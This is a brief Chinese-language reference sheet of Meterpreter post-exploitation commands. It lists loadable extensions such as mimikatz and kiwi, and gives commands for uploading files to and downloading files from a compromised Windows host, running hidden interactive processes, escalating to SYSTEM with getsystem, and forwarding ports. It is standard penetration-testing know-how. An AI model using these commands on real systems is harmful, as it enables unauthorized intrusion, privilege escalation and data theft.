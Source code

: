 ## load -l

查看所有可以使用的插件
```
espia
extapi
incognito
kiwi
lanattacks
mimikatz
peinjector
powershell
priv
python
sniffer
stdapi
unhook
winpmem
```




### 文件上传
```
upload <file> <destination>
\\上传文件到Windows主机 注意：使用-r参数可以递归上传上传目录和文件
```
### 文件下载
```
download <file> <path to save>
 \\可以下载远程主机上的文件,

 如果我们需要递归下载整个目录包括子目录和文件，我们可以使用download -r命令
```
### 文件执行
```
在目标主机上执行exe文件
execute -f <path> [options]
```
### 获取权限
```
获取admin权限
getsystem
```
目标主机上执行exe文件
```
execute -H -i -f cmd.exe \\
  创建新进程cmd.exe，-H不可见，-i交互

  execute -f <path> [options]   \\在目标主机上执行exe文件
```
### 显示进程
```
ps
```
### 创建端口转发
```
portfwd add -l <端口号> -r <目标IP>
```
### 删除端口转发
```
portfwd delete -l <端口号> -p <端口号> -r <目标IP>   
```